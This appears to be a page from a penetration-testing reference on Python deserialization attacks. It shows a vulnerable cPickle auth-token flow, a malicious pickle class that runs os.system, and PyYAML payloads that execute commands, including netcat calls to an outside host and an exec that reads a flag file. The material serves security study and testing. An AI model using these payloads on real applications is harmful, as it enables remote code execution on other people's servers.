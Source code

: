 # Python Deserialization

> Python deserialization is the process of reconstructing Python objects from serialized data, commonly done using formats like JSON, pickle, or YAML. The pickle module is a frequently used tool for this in Python, as it can serialize and deserialize complex Python objects, including custom classes.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Pickle](#pickle)
    * [PyYAML](#pyyaml)
* [References](#references)


## Tools

* [j0lt-github/python-deserialization-attack-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) - Serialized payload for deserialization RCE attack on python driven applications where pickle,PyYAML, ruamel.yaml or jsonpickle module is used for deserialization of serialized data.


## Methodology

In Python source code, look for these sinks:

* `cPickle.loads`
* `pickle.loads`
* `_pickle.loads`
* `jsonpickle.decode`


### Pickle

The following code is a simple example of using `cPickle` in order to generate an auth_token which is a serialized User object.
:warning: `import cPickle` will only work on Python 2

```python
import cPickle
from base64 import b64encode, b64decode

class User:
    def __init__(self):
        self.username = "anonymous"
        self.password = "anonymous"
        self.rank     = "guest"

h = User()
auth_token = b64encode(cPickle.dumps(h))
print("Your Auth Token : {}").format(auth_token)
```

The vulnerability is introduced when a token is loaded from an user input. 

```python
new_token = raw_input("New Auth Token : ")
token = cPickle.loads(b64decode(new_token))
print "Welcome {}".format(token.username)
```

Python 2.7 documentation clearly states Pickle should never be used with untrusted sources. Let's create a malicious data that will execute arbitrary code on the server.

> The pickle module is not secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

```python
import cPickle, os
from base64 import b64encode, b64decode

class Evil(object):
    def __reduce__(self):
        return (os.system,("whoami",))

e = Evil()
evil_token = b64encode(cPickle.dumps(e))
print("Your Evil Token : {}").format(evil_token)
```


### PyYAML

YAML deserialization is the process of converting YAML-formatted data back into objects in programming languages like Python, Ruby, or Java. YAML (YAML Ain't Markup Language) is popular for configuration files and data serialization because it is human-readable and supports complex data structures.

```yaml
!!python/object/apply:time.sleep [10]
!!python/object/apply:builtins.range [1, 10, 1]
!!python/object/apply:os.system ["nc 10.10.10.10 4242"]
!!python/object/apply:os.popen ["nc 10.10.10.10 4242"]
!!python/object/new:subprocess [["ls","-ail"]]
!!python/object/new:subprocess.check_output [["ls","-ail"]]
```

```yaml
!!python/object/apply:subprocess.Popen
- ls
```

```yaml
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
  state:
    update: !!python/name:exec
```

Since PyYaml version 6.0, the default loader for `load` has been switched to SafeLoader mitigating the risks against Remote Code Execution. [PR #420 - Fix](https://github.com/yaml/pyyaml/issues/420)

The vulnerable sinks are now `yaml.unsafe_load` and `yaml.load(input, Loader=yaml.UnsafeLoader)`.

```py
with open('exploit_unsafeloader.yml') as file:
        data = yaml.load(file,Loader=yaml.UnsafeLoader)
```


## References

- [CVE-2019-20477 - 0Day YAML Deserialization Attack on PyYAML version <= 5.1.2 - Manmeet Singh (@_j0lt) - June 21, 2020](https://thej0lt.com/2020/06/21/cve-2019-20477-0day-yaml-deserialization-attack-on-pyyaml-version/)
- [Exploiting misuse of Python's "pickle" - Nelson Elhage - March 20, 2011](https://blog.nelhage.com/2011/03/exploiting-pickle/)
- [Python Yaml Deserialization - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization)
- [PyYAML Documentation - PyYAML - April 29, 2006](https://pyyaml.org/wiki/PyYAMLDocumentation)
- [YAML Deserialization Attack in Python - Manmeet Singh & Ashish Kukret - November 13, 2021](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf)